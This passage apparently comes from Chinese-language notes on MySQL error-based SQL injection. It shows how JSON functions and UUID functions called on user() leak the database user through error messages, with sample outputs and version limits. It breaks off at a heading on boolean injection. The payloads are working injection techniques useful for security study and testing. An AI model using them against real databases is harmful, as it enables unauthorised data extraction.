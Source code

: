 ### JSON函数

据说有版本限制,未进行验证(当前测试版本为`5.7.11`)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201242106092.png)

```
select json_array_append(user(),null,null);
(3141, 'Invalid JSON text in argument 1 to function json_array_append: "Invalid value." at position 0 in \'root@192.168.241.1\'.')
select json_array_append(user(),1,2);
(3141, 'Invalid JSON text in argument 1 to function json_array_append: "Invalid value." at position 0 in \'root@192.168.241.1\'.')
select json_array_insert(user(),1,2);
(3141, 'Invalid JSON text in argument 1 to function json_array_insert: "Invalid value." at position 0 in \'root@192.168.241.1\'.')
select json_insert(user(),1,2);
(3141, 'Invalid JSON text in argument 1 to function json_insert: "Invalid value." at position 0 in \'root@192.168.241.1\'.')
select json_merge(user(),1,2);
(3141, 'Invalid JSON text in argument 1 to function json_merge: "Invalid value." at position 0 in \'root@192.168.241.1\'.')
select json_merge_patch(user(),1,2);
(1305, 'FUNCTION information_schema.json_merge_patch does not exist')
select json_remove(user(),1,2);
(3141, 'Invalid JSON text in argument 1 to function json_remove: "Invalid value." at position 0 in \'root@192.168.241.1\'.')
select json_replace(user(),1,2);
(3141, 'Invalid JSON text in argument 1 to function json_replace: "Invalid value." at position 0 in \'root@192.168.241.1\'.')
select json_set(user(),1,2);
(3141, 'Invalid JSON text in argument 1 to function json_set: "Invalid value." at position 0 in \'root@192.168.241.1\'.')
```

### UUID

版本限制(大于`8.0`)

[https://dev.mysql.com/doc/refman/8.0/en/miscellaneous-functions.html](https://dev.mysql.com/doc/refman/8.0/en/miscellaneous-functions.html)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201242124969.png)

```
select uuid_to_bin(user())
(1411, "Incorrect string value: 'root@192.168.241.1' for function uuid_to_bin")
select bin_to_uuid(user())
(1411, "Incorrect string value: 'root@192.168.241.1' for function bin_to_uuid")
```

## 布尔注入
